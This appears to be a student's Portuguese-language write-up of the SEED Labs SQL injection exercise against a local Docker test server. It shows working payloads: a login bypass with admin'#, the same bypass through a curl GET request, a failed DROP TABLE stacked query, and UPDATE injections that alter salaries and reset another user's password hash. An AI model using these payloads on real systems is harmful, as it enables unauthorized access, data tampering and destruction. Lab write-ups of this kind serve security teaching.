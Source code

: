 # SQL Injection Attack

## Setup

Começámos por correr os seguintes comandos no terminal:

```bash
sudo nano etc/hosts     # para colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               
$ dcup                  

$ dockps
$ docksh ##             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Abrir a base de dados
```

## Tasks

### Task 1: 

A tarefa consiste em selecionar os dados do utilizador "Alice":

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

O resultado:
![Alt text](../images/image8-1.png)

###  Task 2: 

#### Task 2.1 

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e executámos o seguinte código:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Ou podemos fazer isto na página:
![Alt text](../images/image8-8.png)

Obtívemos assim os dados do administrador:

![Alt text](../images/image8-2.png)

#### Task 2.2

O ataque será agora feito através de um pedido GET:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtendo-se assim a página HTML com os dados pessoais dos users:

![Alt text](../images/image8-3.png)

#### Task 2.3

Adicionámos agora código de forma a causar um side-effect no servidor:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```
A operação não chegou a ser executada devido a um erro:

![Alt text](../images/image8-4.png)

Segundo o [manual](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo servidor contém uma proteção que impede a execução de múltiplas queries, não sendo possível realizar o ataque.

### Task 3: 

#### Task 3.1

Depois de entrar com uma conta do sistema, podemos editar os dados pessoais.
Utilizámos o campo "SSN" para o ataque, da seguinte forma:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10211002',Salary='9999999' WHERE ID=$id;
```

Conseguímos assim alterar o salário para o valor escolhido:

![Alt text](../images/image8-5.png)

#### Task 3.2
Para alterar o salário de outra pessoa usámos um código muito semelhante ao anterior:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

![Alt text](../images/image8-6.png)

#### Task 3.3

Para alterar a password de outra pessoa, temos que fazer o mesmo que a task anterior, mas desta vez temos que encriptar a password através da criptografia SHA1.
Para a password `ihackedyou`, o hash é `8b386dbd9fd6db15f6f943aa5e1705835b5039a2`.

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352', password='8b386dbd9fd6db15f6f943aa5e1705835b5039a2' WHERE name='Boby'# WHERE ID=$id;
```

Conseguímos assim entrar na conta:

![Alt text](../images/image8-7.png)